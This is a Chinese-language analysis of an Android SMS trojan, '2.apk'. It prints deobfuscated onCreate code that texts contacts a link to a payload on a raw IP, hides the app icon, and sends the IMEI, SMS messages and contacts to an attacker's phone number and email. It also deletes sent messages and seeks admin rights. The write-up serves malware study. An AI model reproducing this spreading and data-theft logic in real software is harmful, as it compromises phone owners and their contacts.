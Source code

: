 
那接下来就看看这个病毒的代码实现吧。

## 病毒代码分析

### 一、 基本信息
病毒名称：2.apk
病毒类型：木马
样本MD5：
样本长度：212937 字节
发现时间：206.12.26
感染系统：Android Froyo 2.2.x及以上


### 二、 概述

三、 样本特征
1. 敏感权限
获取短信息，获取联系人，发送短信，发送邮件

2. 入口点和恶意模块
我们从程序的入口类MainActivity.java的onCreate()函数开始分析：
> 注：以下代码非程序原始代码，是根据混淆之后的代码人工去混淆后的代码，可能和源码有一定差异，但是程序功能没有发生改变，

com/phone2/stop/activity/MainActivity.java：

```java
protected void onCreate(Bundle paramBundle) {
    super.onCreate(paramBundle);
    // 1.从数据库读取联系人并发送内容为“***：酒筵,恭请阁下光临，邀请函： 103.226.126.27/15/2.apk”的短信
    readContacts();
    setContentView(R.layout.activity_main);
    // 2. 隐藏应用程序图标。如果设置一个app的mainActivity为COMPONENT_ENABLED_STATE_DISABLED状态,则不会再launcher的程序图标中发现该app
    getPackageManager().setComponentEnabledSetting(getComponentName(), PackageManager.COMPONENT_ENABLED_STATE_DISABLED, PackageManager.DONT_KILL_APP);
    // 设置加密用的字符串
    SharedPreferencesManagerUtil.setStaker();
    SharedPreferencesManagerUtil.initPhoneNumber(this);
    SharedPreferencesManagerUtil.setSendEmailAccount(this);
    SharedPreferencesManagerUtil.setReciveEmailAccount(this);
    SharedPreferencesManagerUtil.setSendEmailPwd(this);
    SharedPreferencesManagerUtil.initEndTime(this);
    if (!SharedPreferencesManager.getInstance(this).getHasSendPhoneInfo()) {
      //3. 获取手机IMEI信息、手机型号、手机品牌、系统版本等信息，并将这些消息裁剪成70个字符后，替换掉敏感字符，发送给13097169061
      String str = ((TelephonyManager)getSystemService(Context.TELEPHONY_SERVICE)).getDeviceId();
      SendTextMessageHelper.requestSendTextMessage("" + str + "\n" + phoneInfoHelper.getPhoneInfo(), this);
      SharedPreferencesManager.getInstance(this).setHasSendPhoneInfo(true);
    }
    // 4. 删除已经发送的消息记录
    OtherHelper.deleteMessage(this);
    // 5. 重头戏来了, 将所有的短信和联系人已邮件的形式发送到13097169061@wo.cn的邮箱
    if (SharedPreferencesManager.getInstance(this).getEmailMessageContactsSwitch()) {
      MessageSender.start(this);
    }
    // 6.获取超级管理员权限，并启动服务
    getSuperPermission();
  }
```
我们再来看看启动了服务后又干了些什么，服务无非就是让系统能够常驻内存，监听新的短信和设备状态变化，以随时发送和接收相关的信息。
